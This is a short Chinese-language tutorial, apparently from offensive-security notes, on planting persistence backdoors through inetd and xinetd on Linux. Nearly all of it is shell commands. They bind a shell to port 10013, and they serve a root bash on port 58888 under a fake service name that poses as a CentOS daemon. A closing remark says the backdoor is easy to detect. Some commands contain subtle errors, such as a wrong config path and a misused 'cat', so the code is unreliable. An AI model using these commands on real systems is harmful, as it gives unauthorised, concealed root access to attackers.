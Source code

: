 (x)inetd是以前Linux发行版中的超级守护进程，它被用于接管tftp、telnet、rsync等服务。我们也可以一些持久化服务，让(x)inetd接管。



## inetd后门

执行以下命令会在10013端口开放一个后门。

```shell
echo "daytime stream tcp nowait /bin/sh sh –I" >> /etc/inetd.conf
echo "daytime   10013/tcp"  >> /etc/services
inetd
```



## xinetd后门



```shell
echo "safe-guard      58888/tcp               # CentOS safe-guard master daemon" >> /etc/services
cat /etc/xinet.d/safe-guard.xinetd<<EOF
# default: yes
# description: The safe-guard server servestelnet sessions;
service safe-guard
{
  flags = REUSE
  socket_type = stream
  wait = no
  user = root
  server =/bin/bash
  log_on_failure += USERID
  disable = no
}
EOF

/etc/init.d/xinetd restart
```



这种后门的隐蔽性也很一般，通过审计常用的开放监听端口及(x)inetd的配置文件即可很快的定位到本后门。同时，当前不少系统中都不含(x)inetd服务，因此实际场景下这种后门的使用很少见。